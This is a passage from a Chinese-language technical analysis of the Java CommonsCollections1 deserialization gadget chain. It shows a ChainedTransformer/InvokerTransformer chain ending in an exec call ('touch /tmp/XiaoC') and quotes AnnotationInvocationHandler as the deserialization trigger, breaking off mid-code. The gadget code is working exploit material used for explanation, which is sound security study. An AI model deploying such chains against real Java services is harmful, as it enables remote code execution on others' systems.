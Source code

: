 ```java
            new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class},
                    new Object[]{null, new Object[0]}),
            new InvokerTransformer("exec", new Class[]{String.class},
                    new Object[]{"touch /tmp/XiaoC"})
    };
    Transformer chain = new ChainedTransformer(transformers);
    Map map = LazyMap.decorate(new HashMap(), chain);
    map.get(cls);
}
```

### AnnotationInvocationHandler
gadgets 中 CommonsCollections1 的部分到上面就结束了，但是现在显然还无法触发，既然是反序列化 gadgets，必然是反序列化导致的。于是初代目大哥找到了`AnnotationInvocationHandler`这个类。
```java
class AnnotationInvocationHandler implements InvocationHandler, Serializable {
    private static final long serialVersionUID = 6182022883658399397L;
    private final Class<? extends Annotation> type;
    private final Map<String, Object> memberValues;

    AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
        this.type = type;
        this.memberValues = memberValues;
    }

    public Object invoke(Object proxy, Method method, Object[] args) {
        String member = method.getName();
        Class<?>[] paramTypes = method.getParameterTypes();

        // Handle Object and Annotation methods
        if (member.equals("equals") && paramTypes.length == 1 &&
            paramTypes[0] == Object.class)
            return equalsImpl(args[0]);
        assert paramTypes.length == 0;
        if (member.equals("toString"))
            return toStringImpl();
        if (member.equals("hashCode"))
            return hashCodeImpl();
        if (member.equals("annotationType"))
            return type;

        // Handle annotation member accessors
        Object result = memberValues.get(member);

        if (result == null)
            throw new IncompleteAnnotationException(type, member);

        if (result instanceof ExceptionProxy)
            throw ((ExceptionProxy) result).generateException();

        if (result.getClass().isArray() && Array.getLength(result) != 0)
            result = cloneArray(result);

        return result;
    }
...
    private void readObject(java.io.ObjectInputStream s)
        throws java.io.IOException, ClassNotFoundException {
        s.defaultReadObject();


        // Check to make sure that types have not evolved incompatibly
```